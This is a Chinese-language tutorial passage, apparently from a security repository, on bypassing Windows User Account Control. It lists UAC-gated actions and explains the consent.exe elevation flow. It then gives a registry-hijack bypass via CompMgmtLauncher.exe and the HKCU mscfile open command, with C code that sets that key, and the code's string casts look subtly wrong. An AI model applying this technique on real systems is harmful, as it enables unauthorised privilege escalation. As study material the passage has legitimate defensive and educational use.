 



## BypassUAC

>   UAC需要授权的动作包括：
>
>   -   以管理员身份运行程序
>   -   配置[Windows Update](https://zh.wikipedia.org/wiki/Windows_Update)
>   -   增加或删除用户账户
>   -   改变用户的账户类型
>   -   配置来宾（Guest）账户（Windows 7和8.1）
>   -   改变UAC设置
>   -   安装[ActiveX](https://zh.wikipedia.org/wiki/ActiveX)
>   -   安装或移除[程序](https://zh.wikipedia.org/wiki/计算机程序)
>   -   安装设备[驱动程序](https://zh.wikipedia.org/wiki/驅動程式)
>   -   设置家长控制
>   -   修改系统盘根目录、**Program Files**（x86和x64）目录或**Windows**目录
>   -   查看其他用户文件夹
>   -   配置文件共享或[流媒体](https://zh.wikipedia.org/wiki/流媒體)
>   -   配置家长控制面板
>   -   运行[Microsoft Management Console](https://zh.wikipedia.org/wiki/微软管理控制台)控制台和以.msc为后缀名程序（部分.mmc程序除外）
>   -   运行[系统还原](https://zh.wikipedia.org/wiki/系統還原)程序
>   -   运行[磁盘碎片整理](https://zh.wikipedia.org/w/index.php?title=磁盤碎片整理&action=edit&redlink=1)程序
>   -   运行[注册表编辑器](https://zh.wikipedia.org/w/index.php?title=註冊表編輯器&action=edit&redlink=1)或修改注册表
>   -   安装或卸载显示语言（Windows 7）
>   -   运行Windows评估程序
>   -   配置Windows电源程序，
>   -   配置Windows功能
>   -   运行日期和时间控制台
>   -   配置轻松访问
>   -   激活、修改产品密钥

在触发 UAC 时，操作系统会创建一个`consent.exe`进程，用来确定是否创建具有管理员权限的进程（通过白名单和用户选择判断），然后`CreateProcess`。请求进程将要请求的进程cmdline和进程路径，通过LPC接口传递给appinfo的`RAiLuanchAdminProcess`函数，该函数首先验证路径是否在白名单中，并将结果传递给consent.exe进程，该进程验证被请求的进程签名，以及发起者的权限，是否符合要求，然后决定是否弹出UAC框，让用户确认。这个UAC框会创建新的安全桌面，遮挡之前的界面。同时这个UAC框进程是SYSTEM账户的进程，其他标准用户进程无法与其通信交互。用户确认之后，会调用`CreateProcessAsUser`函数，以管理员权限启动请求的进程。

UAC Bypass方法：

-   白名单提权
-   COM组件接口技术

#### Bypass UAC-白名单提权

使用进程监控工具：`Procmon.exe`，监控`CompMgmtLauncher.exe`

`CompMgmtLauncher.exe`进程会先查询注册表`HKCU\Software\Classes\mscfile\shell\open\command`中的数据，发现该路路径不存在后，继续查询注册表`HKCR\mscfile\shell\open\command(Default)`中的数据并读取，该注册表路径中存储着mmc.exe进程的路径信息。

可以在`HKCU\Software\Classes\mscfile\shell\open\command(Default)`写入自定义路径，实现代码如下：

```c
BOOL setReg(char* lpzEXEpath)
{
	HKEY hKey = NULL;
	// 创建项
	RegCreateKeyEx(HKEY_CURRENT_USER, (LPCWSTR)"Software\\Classes\\mscfile\\Shell\\Open\\Command", 0, NULL, 0, KEY_WOW64_64KEY | KEY_ALL_ACCESS, NULL, &hKey, NULL);
	// 设置键值
	RegSetValueEx(hKey, NULL, 0, REG_SZ, (BYTE*)lpzEXEpath, (1 + lstrlen((LPCWSTR)lpzEXEpath)));
	// 关闭注册表
	RegCloseKey(hKey);
	return TRUE;
}
```
